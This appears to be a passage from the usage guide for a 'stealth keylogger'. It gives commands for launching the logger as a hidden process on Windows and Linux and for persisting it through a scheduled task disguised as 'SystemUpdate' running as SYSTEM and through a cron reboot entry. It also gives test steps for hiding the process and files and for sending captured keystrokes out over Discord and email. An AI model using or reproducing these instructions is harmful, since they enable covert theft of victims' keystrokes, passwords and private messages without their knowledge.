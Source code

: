 #### Method 2: Background Service
```bash
# Windows (PowerShell)
Start-Process python -ArgumentList "stealth_keylogger.py" -WindowStyle Hidden

# Linux/macOS
nohup python stealth_keylogger.py > /dev/null 2>&1 &
```

#### Method 3: Scheduled Task
```bash
# Windows Task Scheduler
schtasks /create /tn "SystemUpdate" /tr "python stealth_keylogger.py" /sc onstart /ru SYSTEM

# Linux Cron
echo "@reboot cd /path/to/keylogger && python stealth_keylogger.py" | crontab -
```

## Testing

### Basic Functionality Test
1. Start the keylogger
2. Type in any application
3. Check Discord channel for data
4. Verify local log files

### Stealth Test
1. Check Task Manager for process name
2. Verify hidden directory creation
3. Test file hiding attributes
4. Confirm console window hiding

### Exfiltration Test
1. Type 50+ keystrokes
2. Verify Discord transmission
3. Check email delivery (if configured)
4. Monitor transmission timing

## Monitoring

### Real-time Status
```python
from stealth_keylogger import StealthKeylogger

kl = StealthKeylogger()
kl.start()

# Monitor status
while True:
    stats = kl.get_stats()
    print(f"Keystrokes: {stats['total_keystrokes']}")
    print(f"Running: {stats['is_running']}")
    time.sleep(30)
```
